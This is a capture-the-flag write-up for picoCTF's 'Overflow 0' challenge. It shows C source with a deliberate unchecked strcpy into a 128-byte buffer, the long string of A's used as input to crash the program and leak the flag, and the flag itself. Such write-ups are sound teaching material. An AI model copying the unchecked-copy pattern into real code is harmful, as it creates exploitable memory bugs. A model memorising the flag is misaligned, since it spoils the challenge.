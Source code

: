 # Overflow 0 - 100 points
Binary Exploitation

## Description:
> This should be easy. Overflow the correct buffer in this program and get a flag.

## Hint:
> Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

### Files in shell: vuln.c, vuln, flag.txt

### vuln.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
## Solving:

In this challenge, we just need to trigger the segmentation fault to make the sigsegv_handler call the contents of the flag.txt by producing an argument/input that is more than the stated buffer of 128 bytes. Rather than creating a python script for this, you can simply just produce a long string of A's in bash with:

```bash
string=$(printf "%200s"); echo ${string// /A}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```bash
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
### Flag:
```
picoCTF{3asY_P3a5yd4a28467}
```

Definetly not as elegent as using pwntools but did the job. 

